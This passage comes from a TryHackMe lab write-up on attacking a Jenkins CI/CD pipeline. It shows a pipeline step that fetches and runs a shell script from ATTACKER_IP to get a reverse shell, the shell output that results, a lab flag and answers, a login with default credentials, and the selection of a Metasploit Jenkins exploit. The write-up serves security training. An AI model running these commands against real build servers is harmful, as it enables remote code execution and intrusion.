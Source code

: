 ```
pipeline { 
	agent any stages 
	{ stage('build') 
		{ steps 
			{ sh ''' 
				curl http://ATTACKER_IP:8080/shell.sh | sh 
				''' 
				} 
			} 
		} 
	}
```
With an luck we should see this in our listener
```
Connection received on jenkins.tryhackme.loc 55994 
/bin/sh: 0: can't access tty; job control turned off 
$ whoami 
ubuntu
```
Now just follow the steps in the mother:

![Alt Text](/assets/images/CICDImgs/Pasted image 20250227235000.png)


![Alt Text](/assets/images/CICDImgs/Pasted image 20250227235019.png)

We have the flag and have completed the task.

![Alt Text](/assets/images/CICDImgs/Pasted image 20250304210111.png)

```
secure registry
secret management
dependency confusion
THM{7753f7e9-6543-4914-90ad-7153609831c3}
```
## Task 7: Securing the Build Server

Navigate to `http://jenkins.tryhackme.loc:8080` and log in with the default credentials `jenkins:jenkins`

![Alt Text](/assets/images/CICDImgs/Pasted image 20250227235326.png)


![Alt Text](/assets/images/CICDImgs/Pasted image 20250227235403.png)

This is good, we know some credentials, and now we can use the `msfconsole` to exploit those and get a shell. Let's start by running the `use exploit/multi/http/jenkins_script_console` to select the right exploit and see what we can do with it

![Alt Text](/assets/images/CICDImgs/Pasted image 20250227234214.png)
